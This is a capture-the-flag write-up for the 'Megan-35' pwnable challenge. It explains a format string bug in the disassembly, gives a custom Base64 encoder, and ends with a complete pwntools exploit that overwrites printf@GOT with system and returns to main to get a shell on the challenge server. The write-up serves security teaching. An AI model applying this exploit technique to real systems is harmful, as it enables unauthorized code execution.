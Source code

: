 # Megan-35
#### Writeup by hgarrereyn
* **Pwnable**
* *200 points*
* Description: We created our own Megan-35 decoding tool, feel free to test it. System is running Ubuntu 16.04, ASLR is disabled.

# Solution

This was a pretty standard format string attack. The approach I used was to perform four writes at once to do the following:
- replace `printf@GOT` with `<system>`
- replace the saved return pointer with `<main>`

Then the program would effectively loop and call `system(user_input)` instead of `printf(user_input)`.

# Vulnerable Code

The actual vulnerability occured here near the end of `<main>`:

```x86asm
             __pic:
0804854c         pop        edx
0804854d         pop        ecx
0804854e         push       eax                                                 ; argument "src" for method j_strcpy
0804854f         push       ebx                                                 ; argument "dst" for method j_strcpy
08048550         call       j_strcpy
08048555         mov        dword [esp+0x238+var_238], ebx                      ; argument "format" for method j_printf
08048558         call       j_printf
0804855d         mov        edx, dword [ebp+var_1C]
08048560         xor        edx, dword [gs:0x14]
08048567         je         loc_804856e
```

The only gotcha was that the input was decoded using Megan-35 before it was printed. It turns out that Megan-35 is just Base64 with a different charset (I really have no idea why it exists).

Anyways, I was able to use the following python script to encode text:

```py
import base64

char_megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"
char_base64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
char_map = dict(zip(char_base64, char_megan35))

def m35encode(s):
    b = base64.b64encode(s)
    return ''.join([char_map[x] for x in b])
```

# Crafting the Exploit

Using gdb to examine memory, I could see that the encoded text was stored on the stack starting at offset `7`. In order to maintain the address pointers, I sent them as plaintext. However, the actual format string attack had to be encoded with Megan-35.

Since ASLR was disabled, it was easy to leak a libc address and calculate the address of system using the provided libc.so binary.

Using the same method, you could leak a stack pointer and calculate the offset to the return address.

Once you had both these values, you could craft a 4 part format string attack (writing two bytes with `$hn`) and get a shell.

# Script

```py
# by hgarrereyn

from pwn import *

import base64
import binascii

char_megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"
char_base64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
char_map = dict(zip(char_base64, char_megan35))

def m35encode(s):
    b = base64.b64encode(s)
    return ''.join([char_map[x] for x in b])


def r():
    print sock.recvline()

# ---

sock = remote('megan35.stillhackinganyway.nl', 3535)

sock.recvline()

# Overwrite printf@GOT with <system>
# system = 0xf7e50da0
system = 0xf7e53940
system_low = (system & 0xFFFF)
system_high = (system & 0xFFFF0000) >> 16

main = 0x080484ea
main_low = (main & 0xFFFF)
main_high = (main & 0xFFFF0000) >> 16

printf_got = 0x0804a00c

buff = ''

buff += '\x08\x04\xa0\x0c'[::-1] # printf@GOT
buff += '\x08\x04\xa0\x0e'[::-1] # printf@GOT + 2

buff += '\xff\xff\xdd\xcc'[::-1] # saved return address
buff += '\xff\xff\xdd\xce'[::-1] # saved return address + 2

buff_e = '' # stuff that needs to be encoded

# These need to be ordered from lowest to highest write value
buff_e += ('%' + str(main_high - 12) + 'x%10$hn')
buff_e += ('%' + str(system_low - main_high) + 'x%7$hn')
buff_e += ('%' + str(main_low - system_low) + 'x%9$hn')
buff_e += ('%' + str(system_high - main_low) + 'x%8$hn')

buff += m35encode(buff_e)

sock.sendline(buff)

c = sock.clean(timeout=1)

sock.sendline(m35encode('sh'))

print "Have a shell:"

sock.interactive()
```